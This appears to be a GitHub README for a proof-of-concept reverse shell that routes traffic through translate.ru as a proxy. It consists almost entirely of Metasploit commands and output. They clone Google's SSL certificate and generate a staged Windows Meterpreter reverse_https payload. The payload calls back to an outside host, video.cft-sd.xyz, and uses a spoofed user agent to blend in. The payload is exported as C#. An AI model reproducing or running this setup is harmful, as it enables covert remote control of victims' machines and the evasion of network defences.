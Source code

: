 # TranslateRuShell (PoC)
Web reverse shell through translate.ru as proxy

## Generate Meterpreter Payload

### Get Cert

use auxiliary/gather/impersonate_ssl

set RHOST www.google.com

set Proxies http:host:port

run

[\*] www.google.com:443 - Connecting to www.google.com:443

[\*] www.google.com:443 - Copying certificate from www.google.com:443

/C=PortSwigger/O=PortSwigger/OU=PortSwigger CA/CN=www.google.com 

[\*] www.google.com:443 - Beginning export of certificate files

[\*] www.google.com:443 - Creating looted key/crt/pem files for www.google.com:443

[\+] www.google.com:443 - key: /root/.msf4/loot/20181213121009_default_74.125.131.99_www.google.com_k_916621.key

[\+] www.google.com:443 - crt: /root/.msf4/loot/20181213121009_default_74.125.131.99_www.google.com_c_554054.crt

[\+] www.google.com:443 - pem: /root/.msf4/loot/20181213121009_default_74.125.131.99_www.google.com_p_521262.pem

[\*] Auxiliary module execution completed

### Generate staged payload with cert check

use payload/windows/meterpreter/reverse_https

set LHOST video.cft-sd.xyz

set LPORT 443

set HttpUserAgent "Mozilla/5.0 (X11; Windows x86_64; rv:60.0) Gecko/20100101 Firefox/60.0"

set LURI /rest/api

set stagerverifysslcert true

set HANDLERSSLCERT /media/sf_Pentest/20181213120429_default_74.125.131.106_www.google.com_p_105411.pem

generate -t csharp
